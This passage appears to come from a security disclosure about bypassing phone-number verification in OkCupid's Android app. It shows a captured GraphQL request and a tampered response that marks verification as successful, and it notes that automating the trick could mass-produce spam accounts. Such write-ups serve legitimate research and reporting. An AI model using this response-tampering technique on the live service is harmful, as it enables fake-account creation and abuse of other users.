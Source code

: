 ```
X-Okcupid-App: OkCupid Android App 64.1.0
X-Okcupid-Platform: Android
X-Okcupid-Version: 64.1.0
X-Okcupid-Locale: en
X-Okcupid-Emulator: true
User-Agent: Android 64.1.0
X-Emb-Path: /graphql/UpdatePhoneNumber
Content-Type: application/json; charset=utf-8
Content-Length: 230
Accept-Encoding: gzip, deflate

{
    "operationName":"UpdatePhoneNumber",
    "variables":{
        "input":{
            "tspRefreshToken":""
        }
    },
    "query":"mutation UpdatePhoneNumber($input:UserUpdatePhoneNumberInput!) { userUpdatePhoneNumber(input: $input) { __typename success statusCode } }"
}
```
We need to change the response to this request by setting "success" to true and the statuscode to 0.
```
HTTP/2 200 OK
Date: Sat, 04 Jun 2022 09:43:55 GMT
Content-Type: application/json; charset=utf-8
X-Powered-By: Express
Vary: Origin, Accept-Encoding
Vary: Accept-Encoding
Access-Control-Allow-Credentials: true
Etag: W/"81-hrlnHKfISioHEIcL0gOlcbam6Zg"
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Strict-Transport-Security: max-age=15552000; includeSubDomains; preload
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 715fba185fb577fb-VIE

{
    "data":{
        "userUpdatePhoneNumber":{
            "__typename":"UserUpdatePhoneNumberResponse",
            "success":true,
            "statusCode":0
        }
    },
    "extensions":{
    }
}
```
Forwarding this modified response logs us in without a valid phone number. This whole process needs to be done quickly because otherwise, it shows a time-out error message.
Besides that, this needs to be done every time we restart the app because it's only valid on the client side and no number is saved in the account.
With automation of this process, a lot of spam accounts could be made. Additionally, the app also doesn't care about real email addresses.
